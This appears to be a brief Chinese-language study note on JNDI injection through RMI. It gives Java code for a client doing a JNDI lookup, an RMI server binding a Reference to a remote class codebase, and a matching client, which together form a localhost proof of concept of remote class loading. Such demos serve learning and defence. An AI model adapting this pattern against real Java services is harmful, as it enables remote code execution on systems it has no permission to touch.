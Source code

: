 #### 代码

```java

import javax.naming.InitialContext;
import javax.naming.NamingException;

public class jndi {
    public static void main(String[] args) throws NamingException {
        String uri = "rmi://127.0.0.1:1099/Exploit";    // 指定查找的 uri 变量
        InitialContext initialContext = new InitialContext();// 得到初始目录环境的一个引用
        initialContext.lookup(uri); // 获取指定的远程对象

    }
}
```

### JNDI+rmi注入漏洞

服务端代码

```java
package org.example;

import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class server {
    public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
        String url = "http://127.0.0.1:8080/";
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference reference = new Reference("test", "test", url);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("obj",referenceWrapper);
        System.out.println("running");
    }
}


```

客户端代码

```java
package org.example;

import javax.naming.InitialContext;
import javax.naming.NamingException;

public class client {
    public static void main(String[] args) throws NamingException {
        String url = "rmi://localhost:1099/obj";
        InitialContext initialContext = new InitialContext();
        initialContext.lookup(url);
    }
}

```
